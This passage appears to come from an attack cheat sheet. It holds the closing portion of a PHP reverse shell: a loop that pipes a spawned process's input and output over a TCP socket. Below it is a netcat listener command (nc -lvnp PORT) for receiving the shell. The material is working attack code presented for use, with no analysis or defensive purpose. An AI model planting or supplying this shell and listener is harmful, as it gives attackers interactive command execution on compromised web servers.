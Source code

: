 ```php
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>

```

- listening netcat
  ```bash
  nc -lvnp PORT
  ```
